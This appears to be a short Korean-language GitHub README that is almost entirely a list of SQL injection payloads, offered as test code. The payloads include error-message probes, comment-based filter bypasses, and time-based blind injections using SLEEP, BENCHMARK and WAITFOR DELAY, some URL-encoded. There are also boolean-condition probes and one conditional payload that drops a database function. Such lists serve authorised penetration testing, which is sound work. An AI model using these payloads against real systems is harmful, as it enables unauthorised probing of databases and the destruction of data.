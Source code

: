 # SQLInjection
SqIinjection 테스트 코드 

오류 메시지 점검
```
&apos;
'
```

```
'//AND//'1%'='0 
```

주석으로 우회 
```
'/**/AND/**/'1%'='0
```

시간 기반 테스트 
```
'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

테스트
```
'||(SELECT 0x615a636e FROM DUAL WHERE 7192=7192 AND (SELECT 4865 FROM (SELECT(SLEEP(5)))VDbe))||'
```


OR x=y     

HAVING 1=0

AND 1=0


AND 7=9 AND (5=5
 AND 7=9 AND ('5=5
 AND 7=7 AND 'Z'='Y
 AND 7=7 AND ('Z'='Y
 WHERE 1=1 AND 1=0

AND SLEEP(15)
+ SLEEP(10) + '
' AnD SLEEP(15) ANd '1
(SELECT * FROM (SELECT(SLEEP(15)))ecMj)
+benchmark(3200,SHA1(1))+'
ORDER BY SLEEP(15)
'&&SLEEP(15)&&'1
0' AND SLEEP(15)
';WAITFOR DELAY '0:0:30'--
'+WAITFOR+DELAY+'0:0:10'--+-"

(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
'+(select*from(select(sleep(7*7)))a)+'
 OR 3=3 AND ('W' LIKE 'Y
AND (SELECT * FROM (SELECT(SLEEP(15)))bAKL) AND 'vRxe'='vRxe
IF(7=4) SELECT 7 ELSE DROP FUNCTION xcjl--
%' AND 1=8 AND '%'='
